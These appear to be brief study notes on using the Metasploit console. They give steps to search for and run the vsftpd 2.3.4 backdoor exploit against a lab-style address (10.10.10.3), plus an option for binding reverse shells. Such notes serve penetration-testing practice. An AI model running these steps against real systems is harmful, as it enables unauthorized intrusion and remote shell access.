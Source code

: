 **How to execute an exploit**

	1st) Search for the exploit: search vsftpd 2.3.4
	2nd) Choose the exploit: use exploit/unix/ftp/vsftpd_234_backdoor
	3rd) Show the exploit options: show options
	4th) Set the necessary options: set <option_name> <option_value> (set RHOSTS 10.10.10.3)
	5th) run the exploit: run


**ReverseLIstenerBindAddress**
	
	It is used to set reverse shells
	
	set ReverseLIstenerBindAddress <local_interface_ip>
